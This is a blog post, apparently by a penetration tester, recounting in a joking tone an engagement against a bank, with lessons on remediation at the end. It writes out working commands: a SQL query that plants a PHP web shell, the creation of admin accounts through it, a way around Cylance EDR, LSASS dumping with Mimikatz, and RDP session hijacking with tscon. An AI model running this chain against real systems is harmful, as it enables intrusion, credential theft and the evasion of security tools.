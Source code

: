 ```yaml
---
title: "How to Own a Bank"
author: "Jamie Warren Philippe"
date: "2025-02-13"
categories: [Cybersecurity, Pentest, Story, Banking]
tags: [Core, Banking, Privilege Escalation, Exploitation]
---
```


# From Directory Listing to Owning a Bank: A Wild Ride with phpMyAdmin, XAMPP, and a PAM that Didn't Give a Damn

## The Setup: "Oops, We Left Everything Open"
So there I was, minding my own business (aka breaking into a bank’s network for *totally legal* reasons), when I stumbled upon a webserver running XAMPP on a **fully patched** Windows Server. At first, I thought, "Okay, maybe they actually know what they're doing." Then, I ran `dirb` and found *directory listing* enabled. **Rookie mistake #1.**

### Step 1: The Accidental Gift – Directory Listing
It all started with a simple directory listing. Because why secure your webserver when you can just hand out your internal file structure to anyone with an internet connection? I ran:
```bash
dirb http://targetbank.com/
```
Boom. A treasure trove of exposed files, including a /phpmyadmin/ folder. Classic.
and I was in. **Rookie mistake #2.**

### Step 2: Oh Look, PhpMyAdmin – Let’s Try Defaults and give them a supprise!
I took a gamble and tried the usual default credentials:
```
Username: root
Password: (blank)
```
Guess what? It worked. Because, of course, it did. 
With full control over the database, I simply used `SELECT INTO OUTFILE` to write a **PHP web shell** directly into `htdocs`.
```sql
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/xampp/htdocs/shell.php';
```
Boom. Webshell live at `http://bankserver/shell.php`.

### Step 3: Making Myself at Home (Persistence 101)
Checking the privileges, I realized XAMPP was running under NT AUTHORITY\SYSTEM. Oh, this was going to be fun.**Rookie mistake #3.**
And also, I wasn’t about to leave this beautiful new playground unprotected. So, using my webshell, I ran:
```bash
curl "http://targetbank.com/shell.php?cmd=net user pentester mysecurepassword /add"
curl "http://targetbank.com/shell.php?cmd=net localgroup administrators pentester /add"
```
BOOOOM!!! Hello, new local admin user.

### Step 4: Fighting Cylance EDR (and Winning)
This is where things got even funnier. Every time I tried to run **Mimikatz**, Cylance EDR slapped me like an overprotective parent. So I tried stopping the service:
```bash
sc stop Cylance
```
*Cylance:* "LOL, you thought." The service was marked **non-stoppable.**

But guess what? I could still **change the startup type**:
```bash
sc config Cylance start= demand
```
Now, I just needed to **reboot the server.** I used the good old "extended ping" trick to monitor when it was back:
```bash
ping -t bankserver
```
As soon as it came online, I refreshed my webshell. This time, **Mimikatz worked like a charm.**
With Mimikatz, I dumped the LSASS, downloaded it for offline paswword cracking, 
```bash
mimikatz# sekurlsa::minidump lsass.dmp
```

### Step 5: RDP and Session Hijacking
Since this part now fell under the the greybox part of the assessment, I politely (read: strategically) asked them to allow my RDP traffic through the firewall. Once I was in, I used the persistent account I had created earlier:

```bash
rdesktop -u pentester -p mysecurepassword targetbank.com
```
Once in, I used **PsExec** to elevate myself to SYSTEM:

```bash
PsExec.exe -s -i cmd.exe
```
And ran:
```bash
query session
```
Guess what? **Administrator** left their session inactive but open. **Rookie mistake #4.**
I could not let it like this without Hijacking it.

```bash
tscon 2 /dest:console
```
And boom—Administrator session hijacked. But then… poof! I got kicked out. For some obscure reason, my session got terminated. Maybe someone noticed, maybe it was just dumb luck, but I had to go back to my LSASS dump.

So, I cracked the dump offline:
```bash
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" exit
```
or using Linux:

```bash
pypykatz lsa minidump lsass.dmp
```
And got creds for BankAdmin1, a local admin account used on multiple critical servers.(because why follow best practices, right?)

### Step 6: The Domain Controller & The CyberArk "PAM" Disaster
While moving laterally, I hit the **Domain Controller.** This is where things took an unexpected turn. I also found a **network-mounted drive** on the initial compromised machine containing **a plaintext file with a URL to their PAM (CyberArk).** 🤦

So, being the responsible hacker I am, I:
    - Used the credentials obtained from LSASS dump cracking.
    - Logged into the Domain Controller.
    - Created a domain admin account.
    - Added special permissions to that account to be able to use the PAM.


Then I logged into **CyberArk** with my shiny new domain admin account, and... oh boy. **It gave me access to the core banking system.** 
Because why have proper access controls when you can just let your pentester waltz right in?

*Insert evil laughter here.*

## The Aftermath
At this point, I basically had the **keys to the kingdom.** This entire chain of failures was due to a mix of:
1. **Directory listing enabled**
2. **phpMyAdmin with default creds**
3. **XAMPP running as SYSTEM**
4. **EDR that I could disable with a simple restart**
5. **A bank that stored their own security tool URLs in a plaintext file**
6. **Domain-wide local admin credentials**

**If this wasn’t a real pentest, it would have made a fantastic heist movie.**

## Moral of the Story: 
Secure your systems, disable default credentials, and please don’t leave your privileged accounts lying around. Otherwise, you’ll end up reading about your security failures in a blog post like this. 😏